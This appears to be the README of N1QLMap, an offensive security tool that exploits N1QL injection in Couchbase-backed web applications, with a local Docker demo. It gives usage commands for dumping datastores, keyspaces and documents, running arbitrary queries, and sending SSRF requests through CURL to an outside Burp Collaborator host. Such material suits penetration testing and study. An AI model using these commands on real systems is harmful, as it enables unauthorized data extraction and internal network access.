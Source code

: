 # Description

`N1QLMap` is an N1QL exploitation tool. Currently works with Couchbase database. The tool supports data extraction and performing SSRF attacks via CURL.
More information can be found here: [https://labs.f-secure.com/blog/n1ql-injection-kind-of-sql-injection-in-a-nosql-database](https://labs.f-secure.com/blog/n1ql-injection-kind-of-sql-injection-in-a-nosql-database).

# Usage 

## Help

```
usage: n1qlMap.py [-h] [-r REQUEST] [-k KEYWORD] [--proxy PROXY] [--validatecerts] [-v]
                  (-d | -ks DATASTORE_URL | -e KEYSPACE_ID | -q QUERY | -c [ENDPOINT [OPTIONS ...]])
                  host

positional arguments:
  host                  Host used to send an HTTP request e.g. https://vulndomain.net

optional arguments:
  -h, --help            show this help message and exit
  -r REQUEST, --request REQUEST
                        Path to an HTTP request
  -k KEYWORD, --keyword KEYWORD
                        Keyword that exists in HTTP response when query is successful
  --proxy PROXY         Proxy server address
  --validatecerts       Set the flag to enforce certificate validation. Certificates are not validated by default!
  -v, --verbose_debug   Set the verbosity level to debug
  -d, --datastores      Lists available datastores
  -ks DATASTORE_URL, --keyspaces DATASTORE_URL
                        Lists available keyspaces for specific datastore URL
  -e KEYSPACE_ID, --extract KEYSPACE_ID
                        Extracts data from a specific keyspace
  -q QUERY, --query QUERY
                        Run arbitrary N1QL query
  -c [ENDPOINT [OPTIONS ...]], --curl [ENDPOINT [OPTIONS ...]]
                        Runs CURL N1QL function inside the query, can be used to SSRF
```
## Usage

1. Put an HTTP request to `request.txt` file. Mark an injection point using `*i*`. See `example_request_1.txt` file for a reference.
2. Use one the following commands.

Extracts datastores:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --datastores
```

Extracts keyspaces from the specific datastore ID:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --keyspaces "http://127.0.0.1:8091"
```

Extracts all documents from the given keyspace:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --extract travel-sample
```

Run arbitrary query:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --query 'SELECT * FROM `travel-sample` AS T ORDER by META(T).id LIMIT 1'
```

Perform CURL request / SSRF:
```sh
$ ./n1qlMap.py http://localhost:3000 --request example_request_1.txt --keyword beer-sample --curl *************j3mrt7xy3pre.burpcollaborator.net "{'request':'POST','data':'data','header':['User-Agent: Agent Smith']}"
```

# Demo

To play with the vulnerability you can spin Docker machines with Couchbase and NodeJS web application. If you already met the Requirements, just run the:

```sh
cd n1ql-demo
./quick_setup.sh
```

Now, you can run command described in `Usage` section against Dockerised web application.



# Requirements

`N1QLMap.py` script doesn't need any specific requirements apart of Python 3.

The following requirements are only for Demo provided in `n1ql-demo` directory.

* Docker
* Docker Compose

To install Docker and Docker Compose on Kali:
```sh
# Docker Installation
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' > /etc/apt/sources.list.d/docker.list
apt-get update

apt-get remove docker docker-engine docker.io
apt-get install docker-ce

# Start Docker Service
systemctl start docker

# Docker Compose Installation
sudo curl -L "https://github.com/docker/compose/releases/download/1.24.1/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
```

Let's test Docker:
```sh
docker run hello-world
```
